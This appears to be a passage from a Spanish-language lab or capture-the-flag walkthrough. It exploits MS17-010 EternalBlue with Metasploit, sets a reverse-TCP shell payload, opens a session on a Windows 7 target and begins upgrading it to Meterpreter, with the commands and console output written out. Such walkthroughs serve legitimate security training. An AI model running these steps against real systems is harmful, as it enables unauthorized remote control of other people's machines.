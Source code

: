 Después de tener y configurar el exploit, pondremos el payload que usaremos para el exploit. Una vez especifiquemos el playload con el comando ‘exploit’, se ejecutara y estaremos dentro.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

Cuando entremos haremos Control+Z para dejar en background la sesión

A continuación buscaremos Meterpreter y elegiremos el modo, como hicimos antes con el CVE. 

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade

Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
```

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
```

Para poder usar Meterpreter, tenemos que poner el ID de la sesión que se creo cuando iniciamos el exploit del CVE. Para sacar el ID de la sesión haremos como se ve a continuación.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                               Connection
  --  ----  ----               -----------                               ----------
  7         shell x64/windows  Shell Banner: Microsoft Windows [Version  10.18.27.194:4444 -> 10.10.53.172:49266 (
                                6.1.7601] Copyright (c) 2009 Micros...   10.10.53.172)
```

```bash
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 7
SESSION => 7
```

```bash
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to a
                                       uto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  **7**                yes       The session to run this module on
```

